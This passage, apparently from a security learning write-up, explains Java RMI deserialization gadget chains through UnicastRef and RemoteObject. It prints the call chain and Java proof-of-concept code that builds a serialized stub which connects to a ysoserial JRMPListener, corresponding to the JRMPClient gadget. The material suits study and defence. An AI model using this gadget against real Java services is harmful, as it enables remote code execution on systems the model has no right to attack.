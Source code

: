 ## UnicastRef
The deserialization call chain is:

```java
UnicastRemoteObject.readObject()
    UnicastRemoteObject.reexport()
        UnicastRemoteObject.exportObject()
            UnicastServerRef.exportObject()
                LiveRef.exportObject()
                    TCPEndpoint.exportObject()
TCPTransport.exportObject()
                            TCPTransport.listen()
```
The malicious server can be used in conjunction with `ysoserial.exploit.JRMPListener`.

## RemoteObject
The `readObject` method of `RemoteObject` will first deserialize the member variable `RemoteRef ref`, and finally call its `readExternal` method, which can be used to trigger the previous `UnicastRef` chain.

```java
public class RemoteObject1 {

	public static void main(String[] args) throws Exception {

		String host = "127.0.0.1";
		int port = 12233;

		ObjID id = new ObjID(new Random().nextInt()); // RMI registry
		TCPEndpoint te = new TCPEndpoint(host, port);
		UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));

		RMIServerImpl_Stub stub = new RMIServerImpl_Stub(ref);

		// Use RemoteObjectInvocationHandler in ysoserial
// RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
// Registry proxy = (Registry) Proxy.newProxyInstance(RemoteObject1.class.getClassLoader(), new Class[]{Registry.class}, obj);

		SerializeUtil.writeObjectToFile(stub);
		SerializeUtil.readFileObject();
	}
}
```

`ysoserial` uses the proxy class of `RemoteObjectInvocationHandler` as the entry point for deserialization, which is equivalent to an extension chain of `UnicastRef`. This part corresponds to the `ysoserial.payloads.JRMPClient` gadget. The malicious server can use it in combination with `ysoserial.exploit.JRMPListener`.

# refer to
- [Java RMI attack from shallow to deep](https://su18.org/post/rmi-attack/)

- [Java Security-RMI-Learning Summary](https://paper.seebug.org/1251/#java-rmi-)